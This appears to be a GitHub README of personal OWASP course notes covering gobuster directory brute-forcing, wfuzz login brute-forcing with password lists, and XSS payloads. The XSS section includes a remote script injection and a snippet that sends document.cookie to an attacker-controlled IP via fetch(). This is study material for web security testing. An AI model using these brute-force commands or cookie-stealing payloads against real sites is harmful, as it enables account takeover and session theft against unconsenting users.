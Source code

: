 # OWASP Course Notes Repository

This repository contains my personal notes from the recently released OWASP course, which consists of video lessons. I created this repository on GitHub to store the notes that will be useful to me in the future.

---

# CEWL - Wordlist Generation

To generate dictionaries, use the cewl tool.

---

# Gobuster - Directory and Subdomain Bruteforcing

Gobuster is a tool that helps with directory and subdomain bruteforcing.
Repository: https://github.com/OJ/gobuster
### Installation command:
```
go install github.com/OJ/gobuster/v3@latest
```
### Example usage:

```
gobuster dir -u http://188.72.108.59:10008/ -w /usr/share/dirb/wordlists/common.txt -t 5
gobuster dns -d <site.com> -w /usr/share/dirb/wordlists/common.txt #subdomains
```

--- 

# Wfuzz - File and Login Page Bruteforcing

Wfuzz is a tool for file and login page bruteforcing.

### Example usage:

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "<site.com>" #files discovery
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -hc 404 -d "username=admin&password=FUZZ" -hh <number of incorrect bytes> "<site.com>" #bruteforce login page
```

# XSS (Cross-Site Scripting)

Reflected XSS: Creating a malicious link that needs to be sent to someone.
Stored XSS: Embedding a trap directly into the website.

### Examples:
If you need to create an alert in an `<h1>` tag:

```
<img src='x' onerror='alert(1)'>
```

### Injection:

```
<script src="http://<ip of your box>/xss.js"></script>
```

### Cookie Stealing and Data Exfiltration

To obtain the cookie file:

```
let cookie = document.cookie;
let encodedCookie = encodeURIComponent(cookie);
fetch("http://<ip>/exfil?data=" + encodedCookie);
```

# Contribution

Feel free to contribute to this repository by adding more notes or suggesting improvements.